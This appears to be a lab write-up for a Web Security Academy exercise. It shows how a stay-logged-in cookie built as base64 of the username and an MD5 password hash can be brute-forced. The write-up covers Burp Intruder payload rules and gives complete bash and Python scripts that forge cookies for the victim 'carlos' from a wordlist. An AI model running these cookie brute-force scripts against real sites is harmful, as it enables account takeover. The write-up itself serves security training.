 # Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his `My account` page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Wordlists: Candidate passwords
---

# Session Cookie Analysis and Attack Execution

## 1. Stay logged in Option
- When logging in and selecting the "Stay logged in" option, the processing appears as follows:  
  ![image](https://github.com/user-attachments/assets/26704adc-199f-4482-86e1-a621abeb964f)

---

## 2. Decoding the Cookie
- We know the cookie is encoded in `base64`. After decoding, we obtain the following structure:  
  `wiener:<hash md5>`  

- The value `51dc30ddc473d43a6011e9ebba6ca770` contains 32 hexadecimal characters, suggesting it is an `MD5 hash`:  
  ![image](https://github.com/user-attachments/assets/9062361d-8f9b-4183-8b59-c7c0fb02bbe8)

---

## 3. Sending the Request to Intruder
- We send the request to the Intruder tool, ensuring the session cookie is empty.  
- Then, we add `payload processing` rules as follows:
  1. Compute the MD5 hash of the password.
  2. Add the prefix `carlos` to the hash.
  3. Encode the resulting string in `base64`:  
  ![image](https://github.com/user-attachments/assets/3327d4f6-8126-46ce-afb7-ad0fbd66084a)

---

## 4. Executing the Attack
- Finally, we execute the attack to identify valid payloads:  
  ![image](https://github.com/user-attachments/assets/4b9e1439-eab0-4804-9174-5920037396d3)  
  ![image](https://github.com/user-attachments/assets/6b55bcb2-2815-45ad-abeb-c000d5831169)



We can perform the same attack using a `bash` script:
```bash
#!/bin/bash

url="https://0a1000b60346ebed84e4d2e5004c0041.web-security-academy.net/my-account"
password_file="passwords.txt"
user="carlos"

if [[ ! -f $password_file ]]; then
    echo "Error: The file '$password_file' does not exist."
    exit 1
fi

generate_encoded_value() {
    local password=$1
    local md5_hash
    local encoded_value

    md5_hash=$(echo -n "$password" | md5sum | awk '{print $1}')
    encoded_value=$(echo -n "$user:$md5_hash" | base64)
    echo "$encoded_value"
}

while read -r password; do
    # Ignorar líneas vacías
    [[ -z "$password" ]] && continue

    encoded_value=$(generate_encoded_value "$password")

    response=$(curl -s -w "%{http_code}" -o response.html "${headers[@]}" \
        -b "stay-logged-in=$encoded_value; Session=" \
        -G "$url" --data-urlencode "id=$user")

    if [[ $response -eq 200 ]]; then
        echo -e "\nPassword: $password"
        echo "Cookie stay-logged-in: $encoded_value"
        break
    fi
done < "$password_file"

rm -f response.html
```

![image](https://github.com/user-attachments/assets/85a88dd5-f401-461b-ac25-50e923e6b576)

Also we can use a python script:
```python
import hashlib
import base64
import requests


url = "https://0ab0002f0464a5ec85691deb009200d8.web-security-academy.net/my-account"
password_file = "passwords.txt"
user = "carlos"

try:
    with open(password_file, 'r') as file:
        passwords = file.readlines()
except FileNotFoundError:
    print(f"Error: The file '{password_file}' does not exist.")
    exit(1)

def generate_encoded_value(password):
    md5_hash = hashlib.md5(password.encode()).hexdigest()
    encoded_value = base64.b64encode(f"{user}:{md5_hash}".encode()).decode()
    return encoded_value


for password in passwords:
    password = password.strip()  
    encoded_value = generate_encoded_value(password)
    cookies = {"stay-logged-in": encoded_value, "Session": ""}
    response = requests.get(url, cookies=cookies, params={"id": user})

    if response.status_code == 200:
        print(f"\nPassword: {password}")
        print(f"Cookie stay-logged-in: {encoded_value}")
        break
```



